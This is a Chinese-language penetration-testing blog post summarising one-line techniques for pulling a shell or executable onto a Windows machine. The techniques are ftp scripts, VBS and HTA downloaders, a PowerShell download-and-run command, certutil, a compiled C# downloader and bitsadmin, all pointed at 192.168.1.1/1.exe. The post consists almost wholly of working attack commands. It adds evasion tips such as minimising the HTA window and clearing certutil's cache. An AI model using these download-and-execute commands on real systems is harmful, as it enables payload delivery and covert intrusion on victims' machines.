 ```yaml
---
title: "一句话下载姿势总结"
date: 2019-05-23T14:11:16+08:00
lastmod: 2019-05-23T14:11:16+08:00
draft: false
tags: ['shell','download']
categories: ['渗透测试']
comment: true
---
```


在上一篇文章中，提到了下载shell的一些姿势，我们这篇文章来深入探究下。

<!--more-->

# ftp

```bash
echo open 192.168.1.1 21> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo ftp>> ftp.txt
echo GET 1.exe >> ftp.txt
ftp -s:ftp.txt
```

需要搭建ftp服务器，初次使用ftp下载防火墙会弹框拦截，使用前记得要先添加防火墙规则

# vbs

vbs downloader,使用msxml2.xmlhttp和adodb.stream对象

```vbscript
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET","http://192.168.1.1/1.exe",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "C:\test\1.exe",2
```

# powershell

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1.exe','C:\test\1.exe');start-process 'C:\test\1.exe'
```

# certutil

保存在当前路径，文件名称同URL

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.exe
```

保存在当前路径，指定保存文件名称

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.txt 1.php
```

使用downloader默认在缓存目录位置： `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`保存下载的文件副本

命令行删除缓存

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.exe delete
```

查看缓存项目：

```
certutil.exe -urlcache *
```

# csc

csc.exe是微软.NET Framework 中的C#编译器，Windows系统中默认包含，可在命令行下将cs文件编译成exe

download.cs

```c#
using System.Net;
namespace downloader
{
    class Program
    {
        static void Main(string[] args)
        {
            WebClient client = new WebClient();
            string URLAddress = @"http://192.168.1.1/1.exe";
            string receivePath = @"C:\test\";
            client.DownloadFile(URLAddress, receivePath + System.IO.Path.GetFileName
        (URLAddress));
        }
    }
}
```

```bash
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:C:\tes
t\download.exe C:\test\download.cs
```

# hta

添加最小化和自动退出hta程序的功能，执行过程中会最小化hta窗口，下载文件结束后自动退出hta程序

将以下代码保存为hta文件

```html
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.1.1/1.exe",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test\\1.exe", 2);
    Stream.Close();
}
window.close();
</script>
<HTA:APPLICATION
WINDOWSTATE = "minimize">
</head>
<body>
</body>  
</html>
```

# bitsadmin

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。xp以后的Windows系统自带

```bash
bitsadmin /transfer n http://192.168.1.1/1.exe  C:\test\update\1.exe
```

**不支持https、ftp协议，php python带的服务器会出错**

---

写在文后，推荐使用powershell或certutil，但是记得清理缓存。